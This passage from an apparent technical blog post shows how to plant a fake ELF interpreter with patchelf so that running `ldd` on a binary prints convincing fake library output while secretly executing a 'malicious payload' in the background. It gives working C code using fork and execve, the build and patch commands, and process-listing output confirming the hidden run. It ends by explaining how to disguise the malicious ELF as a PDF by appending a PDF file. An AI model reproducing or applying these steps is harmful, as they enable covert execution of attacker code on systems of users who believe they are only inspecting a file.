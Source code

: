     free(cmd);
    fclose(f);

Or you could just print out some hardcoded, sample output.

More importantly, we can also use the real system interpreter to execute our original executable using fork and exec.

    pid_t pid = fork();
    if (pid == 0) {
      close(1);
      close(2);
      char *original = getenv("_");
      char *args[] = {interp, original, NULL};
      execve(interp, args, NULL);
    }

It is important to use `fork` because the user will expect `ldd` to return straight away, but our malicious payload may not want to. It is important to use `execve` with a `NULL` environment because remember, it is the presence of certain environmental variables that causes the real ELF interpreter to print out dependencies instead of running the executable.

To understand why we need to close `stdin` and `stdout`, lets look at the `/usr/bin/ldd` source code:

    try_trace() (
      output=$(eval $add_env '"$@"' 2>&1; rc=$?; printf 'x'; exit $rc)
      rc=$?
      printf '%s' "${output%x}"
      return $rc
    )

Our fake interpreter will be invoked inside a subshell with the output captured and assigned to the variable `output`. This means `ldd` will wait around until `stdout` and `stderr` are closed before proceeding (which in the normal case is when the real ELF interpreter exits). If you comment out one of these `close()` lines from the fake ELF interpreter you will see `ldd` hang.

    †  clang -static hello_satan.c -o hello_satan
    †  clang hello_world.c -o hello_world
    †  patchelf --set-interpreter hello_satan hello_world
    †  ldd hello_world
            linux-vdso.so.1 (0x00006f59434ed000)
            libreadline.so.6 => /lib64/libreadline.so.6 (0x00006f594307b000)
            libncurses.so.5 => /lib64/libncurses.so.5 (0x00006f5942e1d000)
            libc.so.6 => /lib64/libc.so.6 (0x00006f5942a71000)
            /lib64/ld-linux-x86-64.so.2 (0x00006f59432cd000)
    †  ps -aux | grep hello
    user     27349  0.0  0.0   4100   740 pts/9    S    09:23   0:00 /lib64/ld-linux-x86-64.so.2 ./hello_world
    user     27359  0.0  0.1   8352  2100 pts/9    S+   09:23   0:00 grep --colour=auto hello

The main thing to point out here is that running `ldd` appears perfectly normal however a subsequent `ps -aux` shows us that `hello_world` is now secretly executing in the background.

Disguising the Fake Interpreter as a PDF
===
I found it surprisingly difficult to look for information on how to disguise an ELF as a PDF. Embarrassingly enough, the reason appears to be that it is so trivial that no one has bothered to write about it. Simpling `cat`ing a PDF to the end of an ELF file will do the trick.

